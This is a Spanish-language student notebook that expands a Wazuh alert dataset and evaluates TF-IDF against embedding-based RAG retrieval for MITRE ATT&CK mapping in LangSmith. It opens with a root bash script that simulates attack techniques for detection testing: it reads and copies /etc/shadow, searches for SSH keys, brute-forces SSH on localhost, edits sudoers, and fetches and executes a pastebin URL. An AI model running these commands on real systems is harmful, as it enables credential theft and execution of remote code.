# Amplacion del dataset para mejor evaluacion del RAG

Como lo vimos en las correcciones del profe, es conveniente ampliar el dataset debido a la poca cantidad de eventos y diversidad de tecnicas generadas. Vamos entonces a generar un nuevo script para esto

## 1. Generacion del script

Se propone el siguiente ejecutable de shell

```bash
#!/bin/bash
# Genera eventos benignos para Wazuh con marcadores syslog. Requiere root. Revierte lo que crea.

if [ "$EUID" -ne 0 ]; then
  echo "Ejecutar como root: sudo $0"
  exit 1
fi

# 1. Parametrización y Aleatoriedad
RAND_STR=$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 8)
FAKEUSER="sys_${RAND_STR}"
TEST_FILE="/tmp/dump_${RAND_STR}.txt"

pausa() { sleep 3; }
marcar() { logger "WAZUH_SIM: $1"; }

echo "Generando eventos de seguridad para Wazuh (sesión: $RAND_STR)..."

# Discovery
marcar "INICIANDO T1082 - System Information Discovery"
uname -a > /dev/null; cat /etc/os-release > /dev/null; pausa
marcar "INICIANDO T1033 - System Owner/User Discovery"
whoami > /dev/null; id > /dev/null; pausa
marcar "INICIANDO T1057 - Process Discovery"
ps aux > /dev/null; pausa
marcar "INICIANDO T1083 - File and Directory Discovery"
find /etc -maxdepth 2 -name "*.conf" > /dev/null 2>&1; pausa
marcar "INICIANDO T1087.001 - Local Account Discovery"
cat /etc/passwd > /dev/null; getent passwd > /dev/null; pausa
marcar "INICIANDO T1049 - System Network Connections Discovery"
ss -tuln > /dev/null; pausa
marcar "INICIANDO T1016 - System Network Configuration Discovery"
ip addr > /dev/null; ip route > /dev/null; pausa
ip neigh > /dev/null; pausa
marcar "INICIANDO T1007 - System Service Discovery"
systemctl list-units --type=service > /dev/null 2>&1; pausa
marcar "INICIANDO T1518 - Software Discovery"
(dpkg -l || rpm -qa) > /dev/null 2>&1; pausa

# Network Service Discovery (Escaneo de red local)
marcar "INICIANDO T1046 - Network Service Discovery"
nc -vz localhost 1-1000 > /dev/null 2>&1; pausa
# Simulando escaneo de subred (rango acotado)
nc -zv 192.168.0.1-5 22,80 > /dev/null 2>&1; pausa

# Credential access
marcar "INICIANDO T1003.008 - OS Credential Dumping (/etc/shadow)"
# Variación 1: Directa
cat /etc/shadow > /dev/null 2>&1; pausa
# Variación 2: Copia furtiva
cp /etc/shadow /tmp/.cache_bak 2>/dev/null; rm -f /tmp/.cache_bak; pausa
# Variación 3: Paginación
more /etc/shadow > /dev/null 2>&1; pausa

marcar "INICIANDO T1552.001 - Credentials In Files"
grep -rIl "password" /etc 2>/dev/null | head -n 5 > /dev/null; pausa
marcar "INICIANDO T1552.004 - Private Keys"
find / -xdev \( -name "id_rsa" -o -name "id_ed25519" \) 2>/dev/null > /dev/null; pausa

marcar "INICIANDO T1110.001 - Password Guessing (Brute Force)"
for i in $(seq 1 10); do
  ssh -o BatchMode=yes -o StrictHostKeyChecking=no -o ConnectTimeout=1       -o PreferredAuthentications=password usuario_inexistente@127.0.0.1 true > /dev/null 2>&1
done; pausa

# Cuentas
marcar "INICIANDO T1136.001 - Create Account: Local Account"
useradd "$FAKEUSER" 2>/dev/null; pausa
marcar "INICIANDO T1098 - Account Manipulation"
usermod -aG sudo "$FAKEUSER" 2>/dev/null || usermod -aG wheel "$FAKEUSER" 2>/dev/null; pausa
userdel -r "$FAKEUSER" 2>/dev/null; pausa

# Persistencia
marcar "INICIANDO T1053.003 - Scheduled Task/Job: Cron"
echo "* * * * * root /bin/true" > /etc/cron.d/wazuh_test_${RAND_STR}; sleep 5
rm -f /etc/cron.d/wazuh_test_${RAND_STR}; pausa

marcar "INICIANDO T1543.002 - Create or Modify System Process: Systemd Service"
cat > /etc/systemd/system/wazuh_test_${RAND_STR}.service <<'EOF'
[Unit]
Description=Wazuh test service
[Service]
ExecStart=/bin/true
[Install]
WantedBy=multi-user.target
EOF
systemctl daemon-reload 2>/dev/null; sleep 5
rm -f /etc/systemd/system/wazuh_test_${RAND_STR}.service
systemctl daemon-reload 2>/dev/null; pausa

marcar "INICIANDO T1546.004 - Event Triggered Execution: Unix Shell Configuration Modification"
cp ~/.bashrc /tmp/.bashrc.bak 2>/dev/null
echo "# wazuh_test" >> ~/.bashrc; sleep 3
mv /tmp/.bashrc.bak ~/.bashrc 2>/dev/null; pausa

# Escalada / permisos
marcar "INICIANDO T1548.003 - Abuse Elevation Control Mechanism: Sudo and Sudo Caching"
sudo -n -l > /dev/null 2>&1; sudo -n true > /dev/null 2>&1; pausa
# Modificación temporal de sudoers
echo "root ALL=(ALL:ALL) ALL # wazuh_sim_${RAND_STR}" >> /etc/sudoers; sleep 3
sed -i "/wazuh_sim_${RAND_STR}/d" /etc/sudoers; pausa

marcar "INICIANDO T1222.002 - File and Directory Permissions Modification: Linux and Mac"
touch "$TEST_FILE"
chmod 777 "$TEST_FILE"; pausa

# FIM
marcar "INICIANDO T1565.001 - Data Manipulation: Stored Data Manipulation (FIM test)"
echo "test" > /etc/wazuh_test_fim_${RAND_STR}.conf; sleep 5
echo "test2" >> /etc/wazuh_test_fim_${RAND_STR}.conf; sleep 5
rm -f /etc/wazuh_test_fim_${RAND_STR}.conf; pausa

# Ejecución / evasión / cadena de ataque
marcar "INICIANDO SECUENCIA: T1105 -> T1222.002 -> T1059.004"
wget -qO /tmp/update_${RAND_STR}.sh https://pastebin.com/raw/dummy > /dev/null 2>&1 || curl -so /tmp/update_${RAND_STR}.sh https://pastebin.com/raw/dummy > /dev/null 2>&1
chmod +x /tmp/update_${RAND_STR}.sh 2>/dev/null
/tmp/update_${RAND_STR}.sh > /dev/null 2>&1 &
pausa

marcar "INICIANDO T1027 - Obfuscated Files or Information"
echo "d2hvYW1p" | base64 -d | bash > /dev/null; pausa
python3 -c "import base64;exec(base64.b64decode('cHJpbnQoMSk='))" > /dev/null 2>&1; pausa
echo "d2hvYW1p" > /tmp/wazuh_payload_${RAND_STR}.b64
base64 -d /tmp/wazuh_payload_${RAND_STR}.b64 > /dev/null; pausa

marcar "INICIANDO T1070.003 - Indicator Removal: Clear Command History"
cp ~/.bash_history /tmp/.bash_history.bak 2>/dev/null
: > ~/.bash_history; history -c
mv /tmp/.bash_history.bak ~/.bash_history 2>/dev/null; pausa

marcar "INICIANDO T1070.004 - Indicator Removal: File Deletion"
rm -f /tmp/wazuh_payload_${RAND_STR}.b64 "$TEST_FILE" /tmp/update_${RAND_STR}.sh; pausa

# Web Simulation (Si hay servicio web local respondiendo)
marcar "INICIANDO T1190 - Exploit Public-Facing Application (Simulación Web)"
curl -s "http://localhost/?id=1' OR '1'='1" > /dev/null 2>&1
curl -s "http://localhost/../../../etc/passwd" > /dev/null 2>&1
pausa

# Collection / C2
marcar "INICIANDO T1560.002 - Archive Collected Data: Archive via Library"
tar czf /tmp/wazuh_archive_${RAND_STR}.tgz /etc/hostname > /dev/null 2>&1
rm -f /tmp/wazuh_archive_${RAND_STR}.tgz; pausa

marcar "INICIANDO T1105 - Ingress Tool Transfer"
curl -s -o /tmp/wazuh_dl_${RAND_STR}.html https://example.com > /dev/null 2>&1 ||   wget -q -O /tmp/wazuh_dl_${RAND_STR}.html https://example.com > /dev/null 2>&1
rm -f /tmp/wazuh_dl_${RAND_STR}.html

marcar "FIN DE GENERACIÓN DE EVENTOS"
echo "Eventos generados exitosamente. Revisa el dashboard de Wazuh y los logs de syslog."
```


<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

## 2. Export de alertas desde el wazuh

Vamos a la interfaz del wazuh y exportamos los resultados

<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

### 3. Clasificacion por *mitre_id*

Se clasifico las distintas tecnicas a su correspondiente mitre_id, guiandonos por la correspondiente clasificacion de wazuh y el portal oficial de MITRE ATT&CK especificamente de su seccion de Data Sources


<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 2.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

## 4. Evaluacion de RAG vs TF-IDF

### 4.1. Subida a la nube de Lang Smith

Replicamos el mismo procedimiento que hicimos en el notebook 02

In [ ]:
import pandas as pd
from langsmith import Client

# Inicializamos el cliente (debemos tener las variables de entorno LANGCHAIN_API_KEY configuradas)
client = Client()
dataset_name = "Evaluacion_Wazuh_MITRE_DATASET_AMPLIADO"

# Cargamos el CSV de evaluación
df_eval = pd.read_csv("../tests/dataset_evaluacion_langsmith_ampliado.csv")

# Creamos el dataset en el proyecto
dataset = client.create_dataset(
    dataset_name=dataset_name,
    description="Dataset ampliado de Wazuh para evaluar clasificación MITRE ATT&CK."
)

# Iteramos sobre el DataFrame para subir los ejemplos (inputs y outputs)
for _, row in df_eval.iterrows():
    client.create_example(
        inputs={"rule.description": row["rule.description"]},
        outputs={"mitre_id": row["mitre_id"]},
        dataset_id=dataset.id
    )
    
print(f"Dataset '{dataset_name}' creado con {len(df_eval)} ejemplos.")

In [3]:
import json
import numpy as np
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.metrics.pairwise import cosine_similarity

# 1. Cargaoms la base de conocimiento de MITRE desde el JSON
json_path = "../data/mitre/techniques_vigentes.json" 

with open(json_path, 'r', encoding='utf-8') as f:
    mitre_data = json.load(f)

ids_mitre = []
textos_mitre = []

# Procesamiento exacto para  estructura de JSON
for t_id, info in mitre_data.items():
    ids_mitre.append(t_id)
    nombre = info.get("name", "")
    descripcion = info.get("description", "")
    textos_mitre.append(f"{nombre} {descripcion}")

print(f"Se cargaron {len(ids_mitre)} técnicas de MITRE exitosamente.")
# 2. Inicializamos y ajustamos el modelo TF-IDF (El motor de palabras clave)
vectorizer = TfidfVectorizer(stop_words='english')
tfidf_matrix = vectorizer.fit_transform(textos_mitre)

# 3. Definimos el pipeline del Baseline para LangSmith
def keyword_baseline_pipeline(inputs: dict) -> dict:
    """
    Busca las 5 técnicas de MITRE más similares a la alerta usando coincidencia exacta de palabras (TF-IDF).
    """
    alerta_texto = inputs["rule.description"]
    
    # Vectorizamos la alerta entrante
    alerta_vec = vectorizer.transform([alerta_texto])
    
    # Calculamos la similitud contra todas las técnicas de MITRE
    similitudes = cosine_similarity(alerta_vec, tfidf_matrix).flatten()
    
    # Obtenemos los índices de los 5 resultados con mayor puntuación
    top_5_indices = similitudes.argsort()[-5:][::-1]
    
    # Extraemos los IDs correspondientes
    tecnicas_recuperadas = [ids_mitre[i] for i in top_5_indices]
    
    return {"tecnicas_recuperadas": tecnicas_recuperadas}

# Prueba rápida manual antes de ejecutar LangSmith:
ejemplo_alerta = {"rule.description": "Successful sudo to ROOT executed"}
print("Predicción Baseline:", keyword_baseline_pipeline(ejemplo_alerta))

Se cargaron 706 técnicas de MITRE exitosamente.
Predicción Baseline: {'tecnicas_recuperadas': ['T1548.003', 'T1553.004', 'T1098.007', 'T1078.001', 'T1548.004']}


In [4]:
from langsmith.evaluation import evaluate
def mitre_retrieval_evaluator(run, example) -> list[dict]:
    """
    Evaluador robusto a prueba de errores de parseo o tipos de datos en LangSmith.
    """
    try:
        # 1. Extraer la técnica esperada de forma segura
        ref_out = example.outputs.get("mitre_id") or example.outputs.get("reference.mitre_id")
        if isinstance(ref_out, dict):
            tecnica_esperada = str(ref_out.get("mitre_id", "")).strip()
        else:
            tecnica_esperada = str(ref_out).strip()
            
        # 2. Extraer las técnicas recuperadas por la corrida
        outputs = run.outputs or {}
        tecnicas_recuperadas = outputs.get("tecnicas_recuperadas", [])
        
        # Sanitizar lista a strings simples
        tecnicas_recuperadas = [str(t).strip() for t in tecnicas_recuperadas]
        
        # 3. Calcular Hit@5
        hit = 1.0 if tecnica_esperada in tecnicas_recuperadas else 0.0
        
        # 4. Calcular MRR
        if tecnica_esperada in tecnicas_recuperadas:
            rank = tecnicas_recuperadas.index(tecnica_esperada) + 1
            mrr = 1.0 / rank
        else:
            mrr = 0.0

        return [
            {"key": "hit@5", "score": hit},
            {"key": "mrr", "score": mrr}
        ]

    except Exception as e:
        # Si ocurre cualquier falla inesperada, devuelve 0.0 en lugar de dejar la fila vacía (No feedback)
        return [
            {"key": "hit@5", "score": 0.0},
            {"key": "mrr", "score": 0.0}
        ]
    


### 4.2. Evaluacion de TD-IDF

In [8]:
dataset_name = "Evaluacion_Wazuh_MITRE_DATASET_AMPLIADO"

print("Iniciando evaluación del Baseline por Palabras Clave (TF-IDF)...")

results_baseline = evaluate(
    keyword_baseline_pipeline,
    data=dataset_name,
    evaluators=[mitre_retrieval_evaluator],
    experiment_prefix="Baseline_Keywords_TFIDF",
)
df_tf_idf = results_baseline.to_pandas()
df_tf_idf.to_csv(f"../reports/evaluacion_capazeta_ampliado_tf_idf.csv", index=False)
print("¡Evaluación finalizada! Revisa tu panel de LangSmith.")

Iniciando evaluación del Baseline por Palabras Clave (TF-IDF)...
View the evaluation results for experiment: 'Baseline_Keywords_TFIDF-1b38b008' at:
https://smith.langchain.com/o/954863b9-6bd1-4509-9100-6980d0c6d6e0/datasets/45cca52c-5cc0-4617-bdce-042226c5e723/compare?selectedSessions=8984b3c1-b052-4733-a82c-d1e155ea7bbf


¡Evaluación finalizada! Revisa tu panel de LangSmith.


Observemos la tabla resultante

<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 9.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

Al final de esta seccion realizaremos una conclusion con los nuevos datos

### 4.3. Evaluacion del RAG (*gemini-embedding-001*)

In [3]:
import os
import sys
from pathlib import Path

# El kernel corre en notebooks/: el índice FAISS vive en la raíz del repo.
root = next(p for p in [Path.cwd(), *Path.cwd().parents] if (p / "pyproject.toml").exists())
os.environ["MITRE_DATA_DIR"] = str(root / "data" / "mitre")

# Si el kernel ya importó capazeta con otra ruta o con otro modelo de embeddings,
# forzamos reimportar (config, embeddings y rag) para no mezclar dimensiones.
for _mod in [
    m
    for m in sys.modules
    if m in {"capazeta.config", "capazeta.embeddings"} or m.startswith("capazeta.rag")
]:
    del sys.modules[_mod]

from capazeta.rag import search


In [5]:
from capazeta.config import EMBEDDING_MODEL

slug = EMBEDDING_MODEL.split("/")[-1]
dataset_name = "Evaluacion_Wazuh_MITRE_DATASET_AMPLIADO"


def rag_capazeta_pipeline(inputs: dict) -> dict:
    """Consulta el índice FAISS de Capazeta y devuelve el Top 5 de técnicas."""
    alerta_texto = inputs["rule.description"]
    resultados = search(alerta_texto, k=5)
    return {"tecnicas_recuperadas": [r["id"] for r in resultados if r.get("id")]}


results_rag = evaluate(
    rag_capazeta_pipeline,
    data=dataset_name,
    evaluators=[mitre_retrieval_evaluator],
    experiment_prefix=f"Capazeta_RAG_FAISS_{slug}",
)

df_rag = results_rag.to_pandas()
df_rag.to_csv(f"../reports/evaluacion_capazeta_rag_ampliado_{slug}.csv", index=False)
print(f"¡Evaluación finalizada con {EMBEDDING_MODEL}! Revisa tu panel de LangSmith.")

View the evaluation results for experiment: 'Capazeta_RAG_FAISS_gemini-embedding-001-f5069e54' at:
https://smith.langchain.com/o/954863b9-6bd1-4509-9100-6980d0c6d6e0/datasets/45cca52c-5cc0-4617-bdce-042226c5e723/compare?selectedSessions=dcb58a22-ac1d-4800-9a4f-b83f9ef051ec


¡Evaluación finalizada con models/gemini-embedding-001! Revisa tu panel de LangSmith.


Vemos la tabla generada

<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 4.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

### 4.4 Analisis comparativo

Comparemos ahora los resultados obtenidos


<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 10.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>




**Intervalos de Confianza de Wald (95%):**
Para otorgar rigor estadístico y evaluar el impacto del tamaño muestral, se calculó el margen de error utilizando la fórmula sugerida para el intervalo de Wald: $p \pm 1.96\sqrt{\frac{p(1-p)}{n}}$.

---

### Tabla Comparativa: Evolución del Rendimiento

| Etapa y Modelo | Tamaño ($n$) | Hit@5 (%) | Intervalo Confianza (95%) | MRR | Latencia Promedio |
| :--- | :--- | :--- | :--- | :--- | :--- |
| **Fase 1: Dataset Inicial** | | | | | |
| Baseline (TF-IDF) | 31 | 32.26% | [15.80%, 48.71%] | 0.2768 | 6.8 ms |
| Capazeta RAG (Gemini) | 31 | **67.74%** | **[51.29%, 84.20%]** | **0.4865** | 636.4 ms |
| **Fase 2: Dataset Ampliado** | | | | | |
| Baseline (TF-IDF) | 88 | 28.41% | [18.99%, 37.83%] | 0.1543 | 2.7 ms |
| Capazeta RAG (Gemini) | 88 | **67.05%** | **[57.22%, 76.87%]** | **0.4657** | 529.7 ms |

---

### Análisis de Resultados y Robustez del Modelo

#### 1. Consistencia del Modelo Semántico
Al casi triplicar el tamaño de la muestra (de 31 a 88 alertas), **el motor RAG de Gemini demostró una enorme robustez**. Su tasa de éxito (Hit@5) se mantuvo estable, pasando de 67.74% a 67.05%. Esto valida que los embeddings están logrando una verdadera comprensión semántica del texto, generalizando exitosamente ante nuevas estructuras de logs y descripciones técnicas variadas. 

#### 2. Degradación del Enfoque Léxico
En contraste, el baseline TF-IDF sufrió una caída tanto en su tasa de acierto (del 32% al 28%) como en la calidad del ranking (el MRR bajó drásticamente de 0.27 a 0.15). A medida que el dataset introdujo logs con mayor variabilidad de lenguaje (sinónimos, descripciones implícitas sin la *keyword* exacta de MITRE), el motor de búsqueda por palabras clave dejó de ser funcional.

#### 3. Impacto en el Rigor Estadístico (Intervalos de Confianza)
La ampliación del dataset cumplió su objetivo primordial: **reducir drásticamente la incertidumbre estadística.**
*   En el dataset inicial ($n=31$), el margen de error para RAG era de **$\pm16.4\%$** (IC: 51% a 84%). 
*   En el dataset ampliado ($n=88$), el mayor tamaño muestral redujo el margen de error a **$\pm9.8\%$** (IC: 57% a 76%). 

Esta compresión del intervalo demuestra matemáticamente, sin lugar a solapamientos estadísticos (el límite máximo de TF-IDF es 37.83% frente al mínimo de 57.22% de Gemini), que la superioridad del RAG no es fruto de fluctuaciones aleatorias en los datos.

#### 4. Costo Computacional vs. Efectividad
El *trade-off* es evidente: la búsqueda vectorial añade una latencia aproximada de ~500 milisegundos. Dado que el contexto de uso es la ingesta asíncrona de alertas SIEM/Wazuh, este retraso en fracciones de segundo es imperceptible y queda plenamente justificado por el aumento del **+135% en precisión** y la consiguiente reducción de falsos positivos en las investigaciones SOC.

## 5. Evaluacion de distintos modelos

Ahora comparemos nuevamente los distintos modelos barajados contra el de gemini

### 5.1. qwen3-embedding-0.6d

Lo elegimos en el .env y generamos el embedding



<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 12.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>


In [7]:
from langsmith.evaluation import evaluate
def mitre_retrieval_evaluator(run, example) -> list[dict]:
    """
    Evaluador robusto a prueba de errores de parseo o tipos de datos en LangSmith.
    """
    try:
        # 1. Extraer la técnica esperada de forma segura
        ref_out = example.outputs.get("mitre_id") or example.outputs.get("reference.mitre_id")
        if isinstance(ref_out, dict):
            tecnica_esperada = str(ref_out.get("mitre_id", "")).strip()
        else:
            tecnica_esperada = str(ref_out).strip()
            
        # 2. Extraer las técnicas recuperadas por la corrida
        outputs = run.outputs or {}
        tecnicas_recuperadas = outputs.get("tecnicas_recuperadas", [])
        
        # Sanitizar lista a strings simples
        tecnicas_recuperadas = [str(t).strip() for t in tecnicas_recuperadas]
        
        # 3. Calcular Hit@5
        hit = 1.0 if tecnica_esperada in tecnicas_recuperadas else 0.0
        
        # 4. Calcular MRR
        if tecnica_esperada in tecnicas_recuperadas:
            rank = tecnicas_recuperadas.index(tecnica_esperada) + 1
            mrr = 1.0 / rank
        else:
            mrr = 0.0

        return [
            {"key": "hit@5", "score": hit},
            {"key": "mrr", "score": mrr}
        ]

    except Exception as e:
        # Si ocurre cualquier falla inesperada, devuelve 0.0 en lugar de dejar la fila vacía (No feedback)
        return [
            {"key": "hit@5", "score": 0.0},
            {"key": "mrr", "score": 0.0}
        ]
    
# 2. Ejecutar la Evaluación en LangSmith
dataset_name = "Evaluacion_Wazuh_MITRE_AMPLIADO"


In [8]:
from langsmith.evaluation import evaluate
def mitre_retrieval_evaluator(run, example) -> list[dict]:
    """
    Evaluador robusto a prueba de errores de parseo o tipos de datos en LangSmith.
    """
    try:
        # 1. Extraer la técnica esperada de forma segura
        ref_out = example.outputs.get("mitre_id") or example.outputs.get("reference.mitre_id")
        if isinstance(ref_out, dict):
            tecnica_esperada = str(ref_out.get("mitre_id", "")).strip()
        else:
            tecnica_esperada = str(ref_out).strip()
            
        # 2. Extraer las técnicas recuperadas por la corrida
        outputs = run.outputs or {}
        tecnicas_recuperadas = outputs.get("tecnicas_recuperadas", [])
        
        # Sanitizar lista a strings simples
        tecnicas_recuperadas = [str(t).strip() for t in tecnicas_recuperadas]
        
        # 3. Calcular Hit@5
        hit = 1.0 if tecnica_esperada in tecnicas_recuperadas else 0.0
        
        # 4. Calcular MRR
        if tecnica_esperada in tecnicas_recuperadas:
            rank = tecnicas_recuperadas.index(tecnica_esperada) + 1
            mrr = 1.0 / rank
        else:
            mrr = 0.0

        return [
            {"key": "hit@5", "score": hit},
            {"key": "mrr", "score": mrr}
        ]

    except Exception as e:
        # Si ocurre cualquier falla inesperada, devuelve 0.0 en lugar de dejar la fila vacía (No feedback)
        return [
            {"key": "hit@5", "score": 0.0},
            {"key": "mrr", "score": 0.0}
        ]
    
# 2. Ejecutar la Evaluación en LangSmith
dataset_name = "Evaluacion_Wazuh_MITRE_DATASET_AMPLIADO"


In [9]:
import os
import sys
from pathlib import Path

# El kernel corre en notebooks/: el índice FAISS vive en la raíz del repo.
root = next(p for p in [Path.cwd(), *Path.cwd().parents] if (p / "pyproject.toml").exists())
os.environ["MITRE_DATA_DIR"] = str(root / "data" / "mitre")

# Si el kernel ya importó capazeta con otra ruta o con otro modelo de embeddings,
# forzamos reimportar (config, embeddings y rag) para no mezclar dimensiones.
for _mod in [
    m
    for m in sys.modules
    if m in {"capazeta.config", "capazeta.embeddings"} or m.startswith("capazeta.rag")
]:
    del sys.modules[_mod]

from capazeta.rag import search


In [10]:
import json
import numpy as np
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.metrics.pairwise import cosine_similarity

# 1. Cargaoms la base de conocimiento de MITRE desde el JSON
json_path = "../data/mitre/techniques_vigentes.json" 

with open(json_path, 'r', encoding='utf-8') as f:
    mitre_data = json.load(f)

ids_mitre = []
textos_mitre = []

# Procesamiento exacto para  estructura de JSON
for t_id, info in mitre_data.items():
    ids_mitre.append(t_id)
    nombre = info.get("name", "")
    descripcion = info.get("description", "")
    textos_mitre.append(f"{nombre} {descripcion}")

print(f"Se cargaron {len(ids_mitre)} técnicas de MITRE exitosamente.")
# 2. Inicializamos y ajustamos el modelo TF-IDF (El motor de palabras clave)
vectorizer = TfidfVectorizer(stop_words='english')
tfidf_matrix = vectorizer.fit_transform(textos_mitre)

# 3. Definimos el pipeline del Baseline para LangSmith
def keyword_baseline_pipeline(inputs: dict) -> dict:
    """
    Busca las 5 técnicas de MITRE más similares a la alerta usando coincidencia exacta de palabras (TF-IDF).
    """
    alerta_texto = inputs["rule.description"]
    
    # Vectorizamos la alerta entrante
    alerta_vec = vectorizer.transform([alerta_texto])
    
    # Calculamos la similitud contra todas las técnicas de MITRE
    similitudes = cosine_similarity(alerta_vec, tfidf_matrix).flatten()
    
    # Obtenemos los índices de los 5 resultados con mayor puntuación
    top_5_indices = similitudes.argsort()[-5:][::-1]
    
    # Extraemos los IDs correspondientes
    tecnicas_recuperadas = [ids_mitre[i] for i in top_5_indices]
    
    return {"tecnicas_recuperadas": tecnicas_recuperadas}

# Prueba rápida manual antes de ejecutar LangSmith:
ejemplo_alerta = {"rule.description": "Successful sudo to ROOT executed"}
print("Predicción Baseline:", keyword_baseline_pipeline(ejemplo_alerta))

Se cargaron 706 técnicas de MITRE exitosamente.
Predicción Baseline: {'tecnicas_recuperadas': ['T1548.003', 'T1553.004', 'T1098.007', 'T1078.001', 'T1548.004']}


In [12]:
from capazeta.config import EMBEDDING_MODEL

slug = EMBEDDING_MODEL.split("/")[-1]


def rag_capazeta_pipeline(inputs: dict) -> dict:
    """Consulta el índice FAISS de Capazeta y devuelve el Top 5 de técnicas."""
    alerta_texto = inputs["rule.description"]
    resultados = search(alerta_texto, k=5)
    return {"tecnicas_recuperadas": [r["id"] for r in resultados if r.get("id")]}


results_rag = evaluate(
    rag_capazeta_pipeline,
    data=dataset_name,
    evaluators=[mitre_retrieval_evaluator],
    experiment_prefix=f"Capazeta_RAG_FAISS_{slug}",
)

df_rag = results_rag.to_pandas()
df_rag.to_csv(f"../reports/evaluacion_dataset_ampliado_capazeta_rag_{slug}.csv", index=False)
print(f"¡Evaluación finalizada con {EMBEDDING_MODEL}! Revisa tu panel de LangSmith.")

View the evaluation results for experiment: 'Capazeta_RAG_FAISS_qwen3-embedding-0.6b-49dbaa81' at:
https://smith.langchain.com/o/954863b9-6bd1-4509-9100-6980d0c6d6e0/datasets/45cca52c-5cc0-4617-bdce-042226c5e723/compare?selectedSessions=5a14d31b-4bb9-4fa0-9c1b-491ec0a26efe


¡Evaluación finalizada con @cf/qwen/qwen3-embedding-0.6b! Revisa tu panel de LangSmith.



<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 13.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

### 5.3. `bge-large-en-v1.5`

Realizamos lo mismo con el otro modelo

In [11]:
from capazeta.config import EMBEDDING_MODEL

slug = EMBEDDING_MODEL.split("/")[-1]


def rag_capazeta_pipeline(inputs: dict) -> dict:
    """Consulta el índice FAISS de Capazeta y devuelve el Top 5 de técnicas."""
    alerta_texto = inputs["rule.description"]
    resultados = search(alerta_texto, k=5)
    return {"tecnicas_recuperadas": [r["id"] for r in resultados if r.get("id")]}


results_rag = evaluate(
    rag_capazeta_pipeline,
    data=dataset_name,
    evaluators=[mitre_retrieval_evaluator],
    experiment_prefix=f"Capazeta_RAG_FAISS_{slug}",
)

df_rag = results_rag.to_pandas()
df_rag.to_csv(f"../reports/evaluacion_dataset_ampliado_capazeta_rag_{slug}.csv", index=False)
print(f"¡Evaluación finalizada con {EMBEDDING_MODEL}! Revisa tu panel de LangSmith.")

View the evaluation results for experiment: 'Capazeta_RAG_FAISS_bge-large-en-v1.5-f68ee7a6' at:
https://smith.langchain.com/o/954863b9-6bd1-4509-9100-6980d0c6d6e0/datasets/45cca52c-5cc0-4617-bdce-042226c5e723/compare?selectedSessions=8bdbb196-ef7d-4a24-987b-1bed71c87c75


¡Evaluación finalizada con @cf/baai/bge-large-en-v1.5! Revisa tu panel de LangSmith.



<div align="center">
  <img src="./img/08_evaluacion_rag_dataset_ampliado/image copy 14.png" width="1200" alt="Export CSV de la annotation queue en LangSmith" />
</div>

### 5.4. Analisis comparativo

Realizemos un analisis comparativo entrte los 3 modelos y veamos como cambio con el dataset ampliado

